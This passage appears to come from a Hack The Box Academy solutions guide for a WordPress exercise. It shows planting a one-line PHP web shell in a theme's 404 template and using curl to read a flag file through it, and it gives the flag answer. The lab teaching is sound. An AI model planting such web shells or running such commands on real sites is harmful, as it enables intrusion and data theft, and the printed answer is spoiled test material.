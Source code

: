 Subsequently, students need to click on `Appearance` then on `Theme Editor`:

![[HTB Solutions/CBBH/z. images/23a1a49c15a6d4341b0b995c6a17b63b_MD5.jpg]]

Students then need to choose the `Twenty Sixteen` theme then click on `Select`:

![[HTB Solutions/CBBH/z. images/1b928dae6c8e8746aec74f1acd642ff4_MD5.jpg]]

Subsequently, students need to choose the `404 Template` page and add to it at the top a PHP web shell and then click on "Update File":

Code: php

```php
system($_GET['cmd']);
```

![[HTB Solutions/CBBH/z. images/43d6f6e2be354d566f690c99c0277ada_MD5.jpg]]

At last students need to utilize the web shell to fetch the contents of the flag file in the home directory for the `wp-user` directory:

Code: shell

```shell
curl -s http://STMIP:STMPO/wp-content/themes/twentysixteen/404.php?cmd=cat%20/home/wp-user/flag.txt
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s http://46.101.28.14:31864/wp-content/themes/twentysixteen/404.php?cmd=cat%20/home/wp-user/flag.txt | grep "HTB"

HTB{rc3_By_d3s1gn}
```

Answer: `HTB{rc3_By_d3s1gn}`

# Skills Assessment - WordPress

## Question 1

### "Identify the WordPress version number."

After spawning the target machine, students need to add the VHost entry `STMIP blog.inlanefreight.local` in the `/etc/hosts` file, given that the root page exposes this when hovering over the `Blog` button:

![[HTB Solutions/CBBH/z. images/4e0d87c0c7533906c65ab898e793446e_MD5.jpg]]

Code: shell

```shell
sudo bash -c 'echo "STMIP blog.inlanefreight.local" >> /etc/hosts'
```
